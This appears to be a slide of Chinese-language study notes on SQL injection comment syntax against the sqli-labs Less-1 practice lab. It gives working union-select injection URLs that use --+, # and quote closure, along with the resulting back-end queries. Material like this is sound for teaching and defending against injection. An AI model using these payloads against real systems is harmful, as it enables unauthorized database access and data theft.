

# 关于SQL注入相关的注释（1）
--+（+号不显，变空格）
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,2,database()--+
对应Select * from users where id='-1' union select 1,2,database()--' LIMIT 0,1
# 有时需要转换成url编码即%23
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,2,database()#
对应Select * from users where id='-1' union select 1,2,database()#
或Select * from users where id='-1' union select 1,2,database()
/* */ 不太能用
单双引号闭合
http://localhost/sqlilabs/Less-1/?id=-1' union select 1,2,database()'